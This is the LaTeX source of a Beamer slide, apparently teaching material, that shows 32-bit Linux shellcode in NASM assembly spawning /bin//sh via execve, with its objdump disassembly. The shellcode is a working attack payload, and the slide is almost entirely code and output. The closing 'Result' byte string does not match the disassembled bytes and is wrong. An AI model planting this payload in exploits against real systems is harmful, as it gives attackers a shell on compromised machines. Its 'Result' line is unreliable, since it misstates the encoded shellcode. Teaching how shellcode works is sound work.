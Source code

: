 \documentclass[beamer]{uibk}
\begin{document}
\begin{frame}[fragile]{Example}
    \begin{columns}
        \begin{column}{0.55\textwidth}
            \begin{nasmcode*}{autogobble,xleftmargin=1em}
                xor     eax, eax    ;Clearing eax register
                push    eax         ;Pushing NULL bytes
                push    0x68732f2f  ;Pushing //sh
                push    0x6e69622f  ;Pushing /bin
                mov     ebx, esp    ;ebx now has address of /bin//sh
                push    eax         ;Pushing NULL byte
                mov     edx, esp    ;edx now has address of NULL byte
                push    ebx         ;Pushing address of /bin//sh
                mov     ecx, esp    ;ecx now has address of address
                                    ;of /bin//sh byte
                mov     al, 11      ;syscall number of execve is 11
                int     0x80        ;Make the system call
            \end{nasmcode*}
        \end{column}
        \begin{column}{0.45\textwidth}
            \begin{pre*}{autogobble}
                > nasm -f elf shellcode.asm
                > objdump -d -M intel shellcode.o
                00000000 <.text>:
                   0:  31 c0                  xor    eax,eax
                   2:  50                     push   eax
                   3:  68 2f 2f 73 68         push   0x68732f2f
                   8:  68 2f 62 69 6e         push   0x6e69622f
                   d:  89 e3                  mov    ebx,esp
                   f:  50                     push   eax
                  10:  89 e2                  mov    edx,esp
                  12:  53                     push   ebx
                  13:  89 e1                  mov    ecx,esp
                  15:  b0 0b                  mov    al,0xb
                  17:  cd 80                  int    0x80
            \end{pre*}
        \end{column}
    \end{columns}
    \bigskip

    Result:
    \begin{pre*}{autogobble}
        \x2f\x2f\x2f\x6e\x0b\xcd{}
    \end{pre*}

\end{frame}
\end{document}
